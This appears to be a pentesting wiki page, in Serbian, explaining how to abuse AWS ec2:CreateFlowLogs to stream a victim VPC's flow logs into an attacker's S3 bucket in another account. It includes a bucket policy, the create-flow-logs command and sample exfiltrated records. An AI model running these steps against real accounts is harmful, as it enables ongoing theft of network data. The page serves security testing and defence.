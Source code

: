 # AWS - VPC Flow Logs Cross-Account Exfiltration to S3

{{#include ../../../../banners/hacktricks-training.md}}

## Sažetak
Zloupotrebite `ec2:CreateFlowLogs` da izvezete VPC, subnet, ili ENI flow logs direktno u napadačev S3 bucket. Kada je delivery role konfigurisana da piše u eksterni bucket, svaka konekcija koja se vidi na nadgledanom resursu se strimuje iz naloga žrtve.

## Zahtevi
- Principal žrtve: `ec2:CreateFlowLogs`, `ec2:DescribeFlowLogs`, i `iam:PassRole` (ako je delivery role potreban/kreiran).
- Napadačev bucket: S3 politika koja veruje `delivery.logs.amazonaws.com` i dodeljuje `s3:PutObject` i `bucket-owner-full-control`.
- Opcionalno: `logs:DescribeLogGroups` ako se izvozi u CloudWatch umesto u S3 (nije potrebno ovde).

## Koraci napada

1) **Attacker** priprema S3 bucket politiku (u nalogu napadača) koja dozvoljava VPC Flow Logs delivery servisu da upisuje objekte. Zamenite placeholder-e pre primene:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AllowVPCFlowLogsDelivery",
"Effect": "Allow",
"Principal": { "Service": "delivery.logs.amazonaws.com" },
"Action": "s3:PutObject",
"Resource": "arn:aws:s3:::<attacker-bucket>/flowlogs/*",
"Condition": {
"StringEquals": { "s3:x-amz-acl": "bucket-owner-full-control" }
}
}
]
}
```
Primeni sa naloga napadača:
```bash
aws s3api put-bucket-policy \
--bucket <attacker-bucket> \
--policy file://flowlogs-policy.json
```
2) **Victim** (compromised principal) kreira flow logs koji su usmereni ka attacker bucket:
```bash
REGION=us-east-1
VPC_ID=<vpc-xxxxxxxx>
ROLE_ARN=<delivery-role-with-logs-permissions>   # Must allow delivery.logs.amazonaws.com to assume it
aws ec2 create-flow-logs \
--resource-type VPC \
--resource-ids "$VPC_ID" \
--traffic-type ALL \
--log-destination-type s3 \
--log-destination arn:aws:s3:::<attacker-bucket>/flowlogs/ \
--deliver-logs-permission-arn "$ROLE_ARN" \
--region "$REGION"
```
U roku od nekoliko minuta, flow log files se pojavljuju u attacker bucket i sadrže konekcije za sve ENIs u nadgledanom VPC/subnet.

## Dokazi

Primer flow log records zapisanih u attacker bucket:
```text
version account-id interface-id srcaddr dstaddr srcport dstport protocol packets bytes start end action log-status
2 947247140022 eni-074cdc68182fb7e4d 52.217.123.250 10.77.1.240 443 48674 6 2359 3375867 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 10.77.1.240 52.217.123.250 48674 443 6 169 7612 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 54.231.199.186 10.77.1.240 443 59604 6 34 33539 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 10.77.1.240 54.231.199.186 59604 443 6 18 1726 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 16.15.204.15 10.77.1.240 443 57868 6 162 1219352 1759874460 1759874487 ACCEPT OK
```
Dokaz listanja Bucket-a:
```bash
aws s3 ls s3://<attacker-bucket>/flowlogs/ --recursive --human-readable --summarize
```
## Uticaj
- Kontinuirana exfiltration mrežnih metapodataka (IP adrese izvora/destinacije, portovi, protokoli) za nadgledani VPC/subnet/ENI.
- Omogućava analizu saobraćaja, identifikaciju osetljivih servisa i potencijalno hunting za security group misconfigurations izvan kompromitovanog naloga.

{{#include ../../../../banners/hacktricks-training.md}}
